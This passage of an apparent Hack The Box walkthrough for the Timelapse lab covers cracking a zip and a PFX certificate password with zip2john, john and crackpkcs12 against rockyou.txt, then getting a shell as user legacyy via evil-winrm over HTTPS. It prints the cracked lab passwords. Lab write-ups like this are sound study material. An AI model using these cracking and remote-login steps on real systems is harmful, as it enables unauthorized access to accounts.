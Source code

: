 # WinRM_Backup.zip
- Using zip2john, we can get the hash for the zip file

```bash
zip2john winrm_backup.zip > hash.txt
```

```bash
john hash.txt --wordlist=rockyou.txt
```
- After cracking the hash, we get the password "supremelegacy" and we can unzip the folder now giving us the .pfx

- We can install [Crackpkcs12](https://sourceforge.net/projects/crackpkcs12/) and/or [Crackpkcs12](https://github.com/crackpkcs12/crackpkcs12)
- Now we can crack the pfx

```bash
crackpkcs12 -b legacyy_dev_auth.pfx -M 15 -d rockyou.txt -v
```
Password -> thuglegacy

## Evil-WinRM over HTTPS

- [Check this link out](https://0xer3bus.gitbook.io/notes/windows/active-directory/winrm-using-certificate-pfx-.#for-linux)
- Follow the steps below:
- Passphrase I used: turco123
- Now we can try to log in with evil-winrm and SSL

```bash
sudo /home/turco/hacking-tools/evil-winrm/evil-winrm.rb -i timelapse.htb -S -k private.pem -c cert.crt -p ''
```
- We are in as legacyy

![[legacy-whoami.png]](/images/HTB/Timelapse/legacy-whoami.png)


## Enumeration
